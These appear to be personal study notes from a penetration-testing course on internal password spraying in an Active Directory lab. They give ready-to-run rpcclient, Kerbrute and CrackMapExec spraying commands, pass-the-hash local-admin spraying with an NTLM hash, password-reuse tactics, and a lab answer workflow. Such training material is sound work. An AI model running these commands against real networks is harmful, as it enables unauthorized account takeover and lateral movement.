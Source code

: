 Once we’ve created a wordlist using one of the methods shown in the previous section, **it’s time to execute the attack.**

# Attacking from Linux
---
- `Rpcclient` is an excellent option for **performing this attack from Linux**. 
- An important consideration is that a valid login is not immediately apparent with `rpcclient`, with the response `Authority Name` indicating a successful login. 
- We can filter **out invalid login attempts by `grepping` for `Authority` in the response**. The following Bash one-liner (adapted from [here](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)) can be used to perform the attack.
## Using a Bash one-liner for the Attack
- `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done`
- ![[Pasted image 20250807055058.png]]

## Using Kerbrute for the Attack
- `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1`

## Using CrackMapExec & Filtering Logon Failures
- `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +`
- After getting one (or more!) hits with our password spraying attack, we **==can then use `CrackMapExec` to validate the credentials quickly against a Domain Controller.==**
- `sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

# Local Administrator Password Reuse
---
- Internal password spraying **==is NOT only possible with domain user accounts.==**
- If you obtain **administrative access and the NTLM password hash or cleartext password for the local administrator** account (or another privileged local account), t**his can be attempted across multiple hosts in the network**.
- **Local administrator account password reuse is widespread** due to the use of gold images in automated deployments.

- **CrackMapExec is a handy tool** for attempting this attack. 
- It is worth **targeting high-value hosts such as `SQL` or `Microsoft Exchange` servers,** as they **==are more likely to have a highly privileged user logged in or have their credentials persistent in memory.==**

- When working with local administrator accounts, **==one consideration is password re-use or common password formats across accounts.==**
- If we find a desktop host with the local administrator account password set to something unique such as `$desktop%@admin123`, it might be worth attempting `$server%@admin123` against servers.

- Also, if we **find non-standard local administrator accounts such as `bsmith`, we may find that the password is reused for a similarly named domain user account.**
- The same principle may apply to domain accounts.
- If we retrieve the **password for a user named `ajones`, it is worth trying the same password on their admin account** (if the user has one), for example, `ajones_adm`, to see if they are reusing their passwords.

- The `--local-auth` flag **will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout**. `Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`.

- By default, **==without the local auth option set, the tool will attempt to authenticate using the current domain==**, which could quickly result in account lockouts.

## Local Admin Spraying with CrackMapExec
- `sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +`

# LABS
---
=> Find the user account starting with the letter "s" that has the password Welcome1. Submit the username as your answer. 

- `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt | grep VALID | awk '{print $NF}' | tee valid_users.txt`
- `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 --continue-on-success`
- ![[Pasted image 20250807061024.png]]